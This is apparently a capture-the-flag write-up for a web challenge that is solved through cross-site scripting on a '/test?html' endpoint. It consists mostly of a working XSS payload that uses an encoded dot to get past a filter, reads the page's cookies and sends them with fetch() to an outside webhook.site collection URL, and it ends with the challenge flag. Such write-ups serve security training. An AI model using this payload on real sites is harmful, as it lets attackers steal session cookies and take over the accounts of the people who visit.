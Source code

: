 # Solution
XSS at `/test?html`

Bypass dot character with `%2f` in URL and `document['cookie']`

```
test?html=<script>s=document['cookie'];fetch(`https://webhook%2esite/887722a2-39e8-4ac2-869e-64489b72347d/${s}`)</script>
```

Flag: `ping{cH4r53tt1ng_l1k3-4-Pr0-f211c8998abab934e26d4c2164dc5388}`


Solved by: benkyou
